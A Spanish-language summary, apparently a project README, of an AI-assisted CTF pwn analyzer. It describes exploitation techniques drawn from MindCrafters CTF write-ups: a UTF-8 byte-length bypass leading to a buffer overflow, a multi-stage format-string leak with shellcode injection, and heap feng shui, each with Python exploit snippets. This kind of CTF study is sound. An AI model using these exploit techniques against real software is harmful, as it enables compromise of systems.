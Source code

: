 # 🎯 RESUMEN FINAL: PWN AI ANALYZER + TÉCNICAS DE MINDCRAFTERS

## 🚀 Sistema Completo Implementado

Hemos desarrollado un **sistema revolucionario** que combina análisis automático con IA y técnicas específicas extraídas de writeups reales de **MindCrafters**, uno de los equipos CTF más exitosos.

## 📊 Técnicas de MindCrafters Implementadas

### 🔥 Técnicas Específicas Analizadas e Implementadas

#### 1. **UTF-8 Byte Bypass** (Safe Gets Challenge - L3akCTF 2025)
```python
# Explota diferencia entre caracteres y bytes en Python
t_in_circle_utf8 = "ⓣ".encode("utf-8")  # 3 bytes, 1 carácter
payload = t_in_circle_utf8 * 30         # 90 bytes, 30 caracteres
payload += b'\x00' * 190 + p64(win_addr + 5)
```
- **Problema**: Buffer overflow más allá de 255 bytes con firewall Python
- **Solución**: Caracteres UTF-8 ocupan múltiples bytes pero cuentan como 1
- **Resultado**: Bypass de límite de caracteres para lograr buffer overflow

#### 2. **Format String + Buffer Overflow Multi-Etapa** (The Goose - L3akCTF 2025)
```python
# Etapa 1: Leak número de honks
payload1 = 64 * b'\x01'
digit = ord(p.recvn(1))

# Etapa 2: Format string leak
payload2 = f"%{1}$p".encode()
leaked_addr = int(re.search(rb'0x[0-9a-fA-F]+', p.recv()).group(0), 16)

# Etapa 3: Calcular dirección de shellcode
shellcode_addr = leaked_addr + 0x52 + 8

# Etapa 4: Buffer overflow + shellcode personalizado
payload = b'A' * 72 + p64(shellcode_addr) + custom_shellcode
```
- **Complejidad**: 4 etapas secuenciales
- **Técnicas**: Number guessing, format string leak, address calculation, shellcode injection
- **Innovación**: Shellcode personalizado inyectado en dirección calculada

#### 3. **Heap Feng Shui Avanzado**
```python
# Fase 1: Preparar layout del heap
for size in [0x20, 0x30, 0x40, 0x50, 0x60]:
    alloc(size)

# Fase 2: Crear fragmentación controlada
for i in [0, 2, 4]:  # Chunks alternados
    free(i)

# Fase 3: Explotar layout
payload = b'A' * 0x18 + p64(0x41) + p64(target_addr)
```
- **Objetivo**: Manipulación controlada del heap layout
- **Método**: Allocación/liberación estratégica para crear condiciones específicas
- **Resultado**: Control de punteros y metadata del heap
